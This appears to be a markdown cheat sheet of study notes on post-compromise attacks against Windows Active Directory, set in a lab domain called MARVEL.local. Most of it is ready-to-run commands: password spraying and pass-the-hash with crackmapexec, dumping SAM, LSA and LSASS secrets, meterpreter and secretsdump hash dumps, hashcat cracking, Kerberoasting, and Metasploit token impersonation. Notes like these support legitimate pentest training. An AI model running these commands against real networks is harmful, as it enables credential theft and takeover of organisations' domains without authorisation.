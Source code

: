 # Attacking Active Directory: Post-Compromise Attacks

## Pass attacks

{% embed url="https://www.linkedin.com/posts/wilfried-p_explication-super-claire-lsa-vs-lsass-vs-activity-7054499362453774336-W_2u" %}

pass password

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```

Pass the hash

```
crackmapexec smb 10.0.0.0/24 -u administrator -H [USER-HASH] # in this case we spay 
```

Reminder! Cheatsheet of crackmapexec

\--local-auth : authenticate locally to each target

\--sam : dump SAM hashes from target systems.

\--lsa : dump LSA secrets from target systems.

\--shares: enumerate shares and access

-L : List available modules for each protocol

-M : Specify module

Usage of module&#x20;

```
crackmapexec smb 192.168.138.0/24 -u administrator -H [USER-HASH] --local-auth -M lsassy
```

cmedb the crackmapexec database



## Dumping and cracking hashes

meterpreter hashdump

```
use windows/smb/psexec
run
hasdump #you will get hashes of users.
```

secretdump

```
# method 1
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
# method 2
secretsdump.py administrator:@192.168.138.138 --hashes [LM-HASH]:[NT-HASH]
```

crack

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

## Kerberoasting



```
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip [DC_IP] -request

hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

## Token impersonation

use metasploit

```
# use psexec of metasploit and set meterpreter payload
load incognito
load kiwi
list_tokens -u
impersonate_token MARVEL\\administrator # the DC must have been rebooted and admin must have logged in


```

Use rev2self to be again authority\_system
